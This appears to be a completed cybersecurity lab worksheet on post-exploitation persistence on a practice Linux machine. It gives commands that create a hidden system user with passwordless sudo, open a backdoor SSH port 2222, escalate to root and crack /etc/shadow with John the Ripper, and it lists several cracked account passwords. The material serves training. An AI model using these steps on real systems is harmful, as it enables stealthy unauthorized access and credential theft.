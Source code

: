 Step 1: Shadow People


Create a secret user named sysd. Make sure this user doesn't have a home folder created:

Your solution command here
sudo adduser --system --no-create-home sysd


Give your secret user a password:

Your solution command here
sudo passwd sysd


Give your secret user a system UID < 1000:

Your solution command here
sudo usermod -u 888 sysd


Give your secret user the same GID:

Your solution command here
sudo groupmod -g 888 sysd


Give your secret user full sudo access without the need for a password:

Your solution command here
sudo visudo
sysd ALL=(ALL) NOPASSWD: ALL


Test that sudo access works without your password:
Your bash commands here
sudo -l

Step 2: Smooth Sailing


Edit the sshd_config file:
Your bash commands here
sudo nano /etc/ssh/sshd_config
Port 2222


Step 3: Testing Your Configuration Update


Restart the SSH service:

Your solution command here
systemctl restart ssh.service


Exit the root account:

Your solution command here
exit


SSH to the target machine using your sysd account and port 2222:

Your solution command here
ssh sysd@192.168.6.105 -p 2222


Use sudo to switch to the root user:

Your solution command here
sudo su


Step 4: Crack All the Passwords


SSH back to the system using your sysd account and port 2222:

Your solution command here
ssh sysd@192.168.6.105 -p 2222


Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file:

Your solution command here
sudo su
john /etc/shadow
sysadmin:passw0rd
student:Goodluck!
mitnik:trustno1
babbage:freedom
lovelace:dragon
stallman:computer
turing:lakers

